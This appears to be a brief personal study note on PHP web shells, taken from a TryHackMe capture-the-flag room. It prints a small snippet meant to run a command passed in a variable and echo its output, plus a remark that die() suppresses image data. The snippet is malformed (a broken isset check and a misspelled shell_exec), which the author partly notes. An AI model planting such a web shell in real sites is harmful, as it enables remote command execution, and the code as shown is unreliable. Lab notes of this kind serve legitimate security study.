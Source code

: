 # php webshells
TODO
> php site using php to show images
```php
if isset {
	echo "<pre>".shell.exec($cmd)."</pre>";
}
die(); 
```
`die()` removes the image garbage, making our shell easier to use


above `isset` block has semantic err? need the "what" of isset, what is set ? 
source of the above is from THM wreath room

